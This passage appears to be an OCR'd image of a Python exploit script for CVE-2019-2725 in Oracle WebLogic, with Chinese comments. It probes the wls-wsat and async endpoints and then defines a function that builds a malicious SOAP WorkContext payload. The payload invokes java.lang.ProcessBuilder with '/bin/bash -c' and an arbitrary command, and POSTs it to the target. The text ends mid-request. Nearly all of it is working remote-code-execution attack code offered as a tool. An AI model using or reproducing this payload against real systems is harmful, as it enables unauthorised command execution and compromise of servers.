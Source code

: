 ```bash
            response = self.session.get(wsat_url, timeout=10)
            print(f"[+] wls-wsat组件状态: {response.status_code}")
            if response.status_code in [200, 500]:
                print("[+] wls-wsat组件可访问，存在CVE-2019-2725漏洞风险")
                return True
        except Exception as e:
            print(f"[-] wls-wsat组件测试失败: {e}")
  
        # 检测async组件
        async_url = f"{self.target_url}{self.async_path}"
        try:
            response = self.session.get(async_url, timeout=10)
            print(f"[+] async组件状态: {response.status_code}")
            if response.status_code in [200, 500]:
                print("[+] async组件可访问，存在CVE-2019-2725漏洞风险")
                return True
        except Exception as e:
            print(f"[-] async组件测试失败: {e}")
  
        return False
  
    def execute_command(self, command, attack_path=None):
        """执行系统命令"""
        if attack_path is None:
            attack_path = self.wsat_path
  
        # 构造恶意SOAP载荷
        soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>"""
  
        attack_url = f"{self.target_url}{attack_path}"
  
        try:
            print(f"[*] 攻击目标: {attack_url}")
            print(f"[*] 执行命令: {command}")
      
            response = self.session.post(
                attack_url,
                data=soap_payload,
                headers=self.headers,
                timeout=15
```